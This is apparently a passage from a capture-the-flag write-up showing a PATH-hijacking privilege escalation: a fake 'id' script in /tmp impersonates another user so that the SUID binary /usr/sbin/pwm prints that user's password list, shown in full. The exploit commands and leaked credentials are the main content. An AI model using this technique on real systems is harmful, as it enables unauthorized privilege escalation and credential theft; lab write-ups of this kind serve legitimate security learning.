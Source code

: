- This was my first time seeing this file, but luckily GPT got my back. We need to replace the group we are in, add it to path and then run `pwm` file. Here's the exploit.

  ```
  www-data@ip-10-10-13-84:/home$ echo '#!/bin/bash' > /tmp/id
  www-data@ip-10-10-13-84:/home$ echo 'echo "uid=33(think) gid=33(think) groups=(think)"' >> /tmp/id
  www-data@ip-10-10-13-84:/home$ chmod +x /tmp/id
  www-data@ip-10-10-13-84:/home$ export PATH=/tmp:$PATH
  www-data@ip-10-10-13-84:/home$ /usr/sbin/pwm
  [!] Running 'id' command to extract the username and user ID (UID)
  [!] ID: think
  jose1006
  jose1004
  jose1002
  jose1001teles
  jose100190
  jose10001
  jose10.asd
  jose10+
  jose0_07
  jose0990
  jose0986$
  jose098130443
  jose0981
  jose0924
  jose0923
  jose0921
  thepassword
  jose(1993)
  jose'sbabygurl
  jose&vane
  jose&takie
  jose&samantha
  jose&pam
  jose&jlo
  jose&jessica
  jose&jessi
  josemario.AKA(think)
  jose.medina.
  jose.mar
  jose.luis.24.oct
  jose.line
  jose.leonardo100
  jose.leas.30
  jose.ivan
  jose.i22
  jose.hm
  jose.hater
  jose.fa
  jose.f
  jose.dont
  jose.d
  jose.com}
  jose.com
  jose.chepe_06
  jose.a91
  jose.a
  jose.96.
  jose.9298
  jose.2856171
  ```
  